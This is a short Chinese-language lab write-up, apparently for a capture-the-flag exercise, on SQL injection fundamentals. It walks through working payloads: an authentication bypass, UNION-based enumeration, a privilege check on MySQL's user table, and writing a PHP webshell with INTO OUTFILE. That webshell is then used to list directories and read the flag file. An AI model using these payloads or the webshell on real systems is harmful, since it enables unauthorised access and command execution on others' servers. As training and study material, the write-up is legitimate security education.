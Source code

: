 # SQL实验报告

## SQL Injection Fundamentals

### 解题思路

```blank
1.使用下列SQL语句进行注入。结尾使用limit 1限制查询结果为1条，绕过权限进入页面。
```

```sql
' or 1=1 limit 1 -- #
```

![1](img/2.png)

```blank
2.随机尝试union注入，发现前端页面返回的是后端的信息，并不进行过滤处理，综合步骤1考虑判断本网站存在SQL注入漏洞。
```

```sql
' union select 1,2,3,4 -- #
```

![2](img/3.png)

```blank
3.通过尝试，发现union拼接列数为5，其中2-5条返回至前端。
```

```sql
' union select 1,2,3,4,5 -- #
```

![3](img/4.png)

```blank
4.查询用户是否有权限，第二列结果为Y，表示用户有权限。
```

```sql
cn' union select 1, SUPER_PRIV, 3, 4, 5 from MYSQL.USER where user="ROOT"-- #
```

![4](img/5.png)

```blank
5.尝试写入文件，通过URL访问该文件。
```

```sql
cn' union select 1,2,'file written successfully!',3,4 into outfile '/var/www/html/dashboard/proof.txt'-- #
```

```url
http://64.227.32.37:30644/dashboard/proof.txt
```

![5](img/6.png)

```blank
6.写入shell.php文件，拿到Webshell。尝试执行ls命令查看目录下的文件。
```

```sql
cn' union select "","",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/dashboard/shell.php'-- #
```

```bash
ls
```

![6](img/7.png)

```blank
7.使用Webshell执行下列URL，获取系统/目录下的所有文件，发现有flag的文件，文件名为flag_cae1dadcd174.txt。
```

```bash
ls /
```

```url
http://64.227.32.37:30644/dashboard/shell.php?0=ls%20/
```

![7](img/8.png)

```blank
8.执行cat读取命令，获取flag。
flag为：528d6d9cedc2c7aab146ef226e918396
```

```bash
cat /flag_cae1dadcd174.txt
```

```url
http://64.227.32.37:30644/dashboard/shell.php?0=cat%20/flag_cae1dadcd174.txt
```

![8](img/9.png)

### 结果截图

![10](img/10.png)

---
